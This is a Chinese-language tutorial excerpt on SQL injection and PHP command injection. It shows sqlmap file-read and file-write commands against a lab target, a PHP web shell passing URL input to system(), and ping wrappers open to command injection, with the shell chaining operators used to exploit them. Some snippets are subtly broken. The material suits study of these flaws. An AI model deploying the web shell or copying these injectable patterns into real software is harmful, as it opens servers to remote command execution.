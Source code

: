 读取文件
`sqlmap -u "http://192.168.1.101/sqli/Less-7/?id=1" --file-read "F:\\flag.txt"`

写入文件
`sqlmap -u "http://192.168.1.101/sqli/Less-7/?id=1" --file-write "/root/Desktop/target.txt" --file-dest "F:\\targe t.txt"`



# PHP命令执行漏洞

##漏洞函数
在PHP中具有执行系统命令功能的函数如下：
1、system
2、exec
3、shell_exec
4、passthru
5、popen
6、proc_popen

```
<?php
  echo "<pre>";
  if(isset($_GET["cmd"])){
      system($_GET["cmd"]);
  }
  echo"</pre>";
?>
```


### Windows绕过
```
<?php
  echo "<pre>";
  $arg=$_GET['cmd'];
  if($arg){
     system("ping $arg");
     echo"</pre>";
?>
```
命令执行漏洞拼接符介绍
在Windows系统下的cmd命令中，有以下一些截断拼接符。


`&`前面的语句为假则直接执行后面的，为真则按顺序执行
`&&`前面的语句为假则直接出错，后面的也不执行，为真则按顺序执行
`|`直接执行后面的语句，前面不执行
`||`前面出错执行后面的，不出错不执行后面

### Linux绕过
```
<?php
  echo"<pre>";
  $arg =$_GET['cmd'];
  if($arg){
     system("ping -c 4 $arg"); 
  echo "</pre>";
?>
```
